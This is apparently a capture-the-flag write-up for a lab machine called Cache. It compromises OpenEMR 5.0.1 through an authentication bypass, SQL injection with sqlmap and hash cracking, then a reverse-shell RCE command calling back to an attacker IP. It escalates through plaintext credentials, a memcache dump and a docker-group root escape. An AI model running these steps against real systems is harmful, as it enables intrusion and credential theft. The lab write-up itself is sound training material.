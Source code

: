 # Cache

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.211.212
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 10:30 EDT
Nmap scan report for 10.129.211.212
Host is up (0.0089s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Accidental Subdomain Enum

Port 80 reveals a blog like website:

<figure><img src="../../../.gitbook/assets/image (24) (2).png" alt=""><figcaption></figcaption></figure>

There's not much here, but we can add `cache.htb` to our `/etc/hosts` file since there's a banner for it on screen. I ran a `gobuster` and `wfuzz` scan on the machine. Funnily, I accidentally had a typo in my `wfuzz` command, and found a completely new domain present:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host:FUZZ.htb' --hw=973 -u http://cache.htb  /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cache.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================
                   
000010187:   302        0 L      0 W        0 Ch        "hms"
```

`hms.htb` is active on this machine. We can visit that.

### OpenEMR

The page shows us a login for OpenEMR, which is known to have a ton of vulnerabilities:

<figure><img src="../../../.gitbook/assets/image (22) (9).png" alt=""><figcaption></figcaption></figure>

We can head to the Github Repo for this software and attempt to find its version using the default files present:

{% embed url="https://github.com/openemr/openemr" %}

Visiting `sql_patch.php` reveals that this is OpenEMR 5.0.1:

<figure><img src="../../../.gitbook/assets/image (681).png" alt=""><figcaption></figcaption></figure>

This version has quite a few RCE exploits for it:

```
$ searchsploit openemr 5.0.1
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
OpenEMR 5.0.1 - 'controller' Remote Code Execution         | php/webapps/48623.txt
OpenEMR 5.0.1 - Remote Code Execution (1)                  | php/webapps/48515.py
OpenEMR 5.0.1 - Remote Code Execution (Authenticated) (2)  | php/webapps/49486.rb
OpenEMR 5.0.1.3 - Authentication Bypass                    | php/webapps/50017.py
```

There's also an authentication bypass exploit here:

{% embed url="https://www.exploit-db.com/exploits/50017" %}

To bypass it, all we have to do is simply visit `/portal/account/register.php`, and it would treat us as logged in with a valid token. Searching for exploits led me to a [PDF](https://www.open-emr.org/wiki/images/1/11/Openemr\_insecurity.pdf) that had the vulnerability report for v5.0.1.3, and there are lot including a lot of SQL Injections.

Firstly, visiting `/portal/find_appt_popup_user.php` just works as we have 'bypassed' the login.&#x20;

<figure><img src="../../../.gitbook/assets/image (671).png" alt=""><figcaption></figcaption></figure>

For this case, the second PoC listed works best.&#x20;

<figure><img src="../../../.gitbook/assets/image (683).png" alt=""><figcaption></figcaption></figure>

Using `sqlmap`, we can enumerate and view the stuff in the database. (skipped the enumeration)

<pre><code>$ sqlmap -r req -D openemr -T users_secure --dump
<strong>Table: users_secure
</strong>[1 entry]
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| id | salt    | password                                                     | username | last_update         | salt_history1 | salt_history2 | password_history1              | password_history2 |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| 1  | &#x3C;blank> | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | &#x3C;blank>  | 2019-11-21 06:38:40 | &#x3C;blank>       | &#x3C;blank>       | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin     |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
</code></pre>

We can crack this hash in `john`.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash      
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)     
1g 0:00:00:00 DONE (2023-05-10 10:53) 5.555g/s 4800p/s 4800c/s 4800C/s lester..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now that we have the admin password, we can do RCE.&#x20;

{% embed url="https://www.exploit-db.com/exploits/45161" %}

Remember to use `python2`.&#x20;

```
$ python2 45161.py -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1' http://hms.htb
```

<figure><img src="../../../.gitbook/assets/image (670).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Ash Creds

I searched all the files within `/var/www` except for OpenEMR for credentials:

```
www-data@cache:/var/www/cache.htb/public_html$ grep -iRl 'Password' ./
./login.html
./index.html
./jquery/functionality.js
```

So here's the stuff within that file:

```javascript
www-data@cache:/var/www/cache.htb/public_html$ cat ./jquery/functionality.js
$(function(){
    
    var error_correctPassword = false;
    var error_username = false;
    
    function checkCorrectPassword(){
        var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
```

Using that password, we can `su` to `ash`.

<figure><img src="../../../.gitbook/assets/image (661).png" alt=""><figcaption></figcaption></figure>

### Memcache

When we enumerate the ports that are open, we can see that port 11211 is listening:

```
ash@cache:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -            
<TRUNCATED>
```

This is the `memcache` service.

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/11211-memcache" %}

We can enumerate the items within it:

```
ash@cache:~$ echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211 
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```

We can grab the password and `su` to `luffy`.

```
ash@cache:~$ echo "get passwd" | nc -vn -w 1 127.0.0.1 11211         
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE passwd 0 9
0n3_p1ec3
END
```

### Docker Group

`luffy` is part of the `docker` group.&#x20;

```
luffy@cache:/home/ash$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
luffy@cache:/home/ash$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        3 years ago         64.2MB
```

We can just run this command to create an Ubuntu container that is mounted on the main file system, where we have access to the container as `root`. This effectively gives us `root` access to the main file system to make `/bin/bash` an SUID binary.&#x20;

```
luffy@cache:/home/ash$ docker run -it --rm -v /:/mnt ubuntu chroot /mnt bash
root@ee809b31a278:/# id
uid=0(root) gid=0(root) groups=0(root)
root@ee809b31a278:/# cd root
root@ee809b31a278:~# ls
root.txt  run.sh  should_work
root@ee809b31a278:~# chmod u+s /bin/bash
```

Then we can exit this and get a shell with EUID of `root`.

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>
